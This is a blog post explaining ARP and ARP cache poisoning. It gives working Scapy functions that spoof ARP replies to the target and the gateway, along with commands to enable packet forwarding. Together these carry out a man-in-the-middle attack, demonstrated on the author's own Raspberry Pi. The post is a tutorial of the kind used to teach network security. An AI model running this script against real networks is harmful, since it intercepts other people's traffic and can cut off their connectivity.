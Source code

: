 ```yaml
---
title: "A Look into Arp Cache Poisoning and Using It to Perform MITM Attack"
date: 2019-07-24
toc: true
toc_label: "Table of Contents"
categories:
  - blog
tags:
  - Network Security
  - ARP cache poisoning
  - Scapy
---
```


# What is ARP?
At the lowest level, a switch connects a bunch of hosts together. If a protocol P on a host S wants to send some information to another host R on the network, S needs to find out the Ethernet address of R before it can transmit the packet. There must be a mapping of the address of R in protocol Ps address space to a 48-bit Ethernet address, to get the Ethernet address of R. The Address Resolution Protocol (ARP) provides this resolution. 

In IPv4 over Ethernet, the sender or receiver protocol address refers to the IP address of the sender or receiver. The hardware address refers to the 48-bit Ethernet address. To resolve a host with an IP address, say for example X.X.X.X, S broadcasts (Target hardware address is FF:FF:FF:FF:FF:FF or all 1s) out an ARP request with the sender protocol address field set to our IP address, say for example Y.Y.Y.Y, asking

```
	Who is X.X.X.X? tell Y.Y.Y.Y
```

All the hosts on the network check to see if the target IP address matches their IP address on receiving the ARP request. The host ‘X.X.X.X,’ on seeing that its IP address matches the one in the ARP request, sends out an ARP reply to ‘Y.Y.Y.Y’ with its Ethernet address. Once S receives the ARP response from R, it adds the Ethernet address of R to a cache table and starts sending out whatever packets protocol P has to send.

The following image gives an example of an ARP request and response. 

![ARP Packet Format](../../assets/images/arp-spoofing/wireshark-arp.png)

## ARP Messages
The ARP packet has the following format.

![ARP Packet Format](../../assets/images/arp-spoofing/main-arp-format.png)

In the above image, we can see that there is a field *Opcode*. This field specifies the nature of 
the ARP messages being sent. In this blog post, we are mainly concerned with the sender's and receiver's source and destination address in the following two types of ARP messages.

1.	ARP Request, and
2.	ARP Reply

# ARP Spoofing
The main issue of ARP lies in the fact that there is no authentication of the ARP reply, i.e., any host can send an ARP reply claiming to be the Target. There is no check done by ARP to verify if the host that has sent the ARP reply is whom it claims to be. 

If host A wants to send data to host B on the same network, it will first resolve the hardware address using host B’s IP address, and then sends the data. If we send an ARP reply claiming to be host B, host A will update its cache with our Ethernet address. All subsequent messages are sent to us. If instead host A wants to send data to a host X, not on the same network, host A will send it to the default gateway which will then forward the message to the appropriate router. To intercept these messages, we need to send an ARP reply claiming to be the default gateway. Once we poison the target’s cache, we can either choose to forward the packets performing a man-in-the-middle attack (MITM) or drop them performing a denial of service attack.

## Performing ARP Cache Poisoning With Scapy
We can poison a target's ARP cache by sending spoofed ARP responses. Before we can send
the spoofed ARP messages, we need the target's MAC address. To get the MAC address, we
can send an ARP request to the target. This can be done in the following manner.

```python
def get_mac(ip):
  # Create an ARP packet with the target as the destination 
  arp = Ether()/ARP(pdst=ip)
	
  # Send the ARP request and get the response
  resp = srp1(arp)

  # Return the target's MAC address
  return (resp[Ether].src)
```

Once we get the target's MAC address, we can now poison its cache by sending a spoofed ARP response. The target might flush it's ARP cache and send out an ARP request to the actual destination. To prevent it from overwriting our spoofed ARP cache entry, we must continuously keep sending it spoofed ARP responses. We can achieve this by using the function *poison_arp_cache* given below. The function *poison_arp_cache* must be looped until the attacker wants to stop the attack.

```python
def poison_arp_cache(target_ip, target_mac_addr, spoofed_ip, spoofed_mac_addr=Ether().src):
  # Create the ARP response
  spoofed_resp = Ether()/ARP()

  # Set the destination MAC address
  spoofed_resp[Ether].dst = target_mac_addr
  spoofed_resp[ARP].hwdst = target_mac_addr

  # Set the destination IP address
  spoofed_resp[ARP].pdst = target_ip

  # Set the spoofed MAC address
  spoofed_resp[Ether].src = spoofed_mac_addr
  spoofed_resp[ARP].hwsrc = spoofed_mac_addr

  # Set the spoofed IP address
  spoofed_resp[ARP].psrc = spoofed_ip

  # is-at (response)
  spoofed_resp[ARP].op = 2

  #print(spoofed_resp[0].show())
  sendp(spoofed_resp)
```

On trying the above function with the target as a Raspberry Pi 3B+ on the same network as my 
laptop, I got the following results.

### Before ARP Cache Poisoning
![ARP Packet Format](../../assets/images/arp-spoofing/pi-arp-table-before.png)

### After ARP Cache Poisoning
![ARP Packet Format](../../assets/images/arp-spoofing/pi-arp-table-after.png)

We can see that we have successfully overwritten the target's cache table with my laptop's MAC address. All subsequent messages will now be sent to my laptop. But to prevent a DOS attack, we must forward the packets to the destination. This involves poisoning the destination's ARP cache table too. If the destination is not on the same network, we must poison the default gateway's cache table. To poison the default gateway, we need its IP address and MAC address. We can get them in the following manner. 

```python
def get_default_gateway_details():
  # Send a request to any host outside our network with the TTL set to 0
  p = srp1(Ether()/IP(dst="www.google.com", ttl = 0)/ICMP()/"XXXXXXXXXXX")

  # Return the source's IP address and MAC address
  return p[IP].src, p[Ether].src
```

In the *get_default_gateway_ip* function, since the TTL is set to zero, the first host on the route which is the default gateway, responds with an ICMP error message (TTL Zero During Transit). The function then reads the ICMP error message to get the default gateway's IP address and MAC address.

Using the information we got from the *get_default_gateway_details* function, we can perform the MITM attack. All the above functions can be called from a single function *perform_mitm* which poisons
both the target's and default gateway's ARP cache. 

```python
def perform_mitm(target_ip):
  # Get default gateway's network details
  default_gateway_ip, default_gateway_mac = get_default_gateway_details()

  # Get target's MAC address
  target_mac = get_mac(target_ip)

  # Keep sending spoofed ARP responses
  while True:
    # Poison target's ARP cache table
    poison_arp_cache(target_ip, target_mac, default_gateway_ip)

    # Poison default gateway's ARP cache table
    poison_arp_cache(default_gateway_ip, default_gateway_mac, target_ip)
```

### Note on Enabling Packet Forwarding
To allow packets from the target or the gateway to be forwarded, we must enable packet forwarding so that our system acts as a router. Whenever a packet not destined to our system arrives, the OS automatically forwards it to the appropriate host. 

To enable this on Linux, we must do the following.

```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
```

On windows, we must carry out the following steps.
```
1. Open Regedit as administrator,
2. Navigate to the HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\ Services\Tcpip\Parameters\IPEnableRouter setting,
3. Right-click and select Modify,
4. Change 0 to 1 and exit the editor,
5. Type services.msc in the command prompt,
6. Navigate to the Routing and Remote Access service, 
7. Right-click and select Properties, 
8. Change to Automatic and click on Start to start the service.
```

# MITM Results
On running the *perform_mitm* function, all communications between the gateway and the target now pass through my laptop. On sending a GET request to **www.resonous.com** from the Raspberry PI, we can see the same request in my laptop.

![ARP Packet Format](../../assets/images/arp-spoofing/curl-resonous.png)

![ARP Packet Format](../../assets/images/arp-spoofing/wireshark-get.png)

![ARP Packet Format](../../assets/images/arp-spoofing/wireshark-get-depth.png)

Since the GET request resulted in moved result, we can curl the website over https in the following manner. 

![ARP Packet Format](../../assets/images/arp-spoofing/res-https.png)

The same can be seen in Wireshark. 

![ARP Packet Format](../../assets/images/arp-spoofing/wireshark-https-depth.png)

That's it for this post. The complete script is available at my GitHub [page][page]


[page]: https://github.com/venkat-abhi/arp-cache-poisoner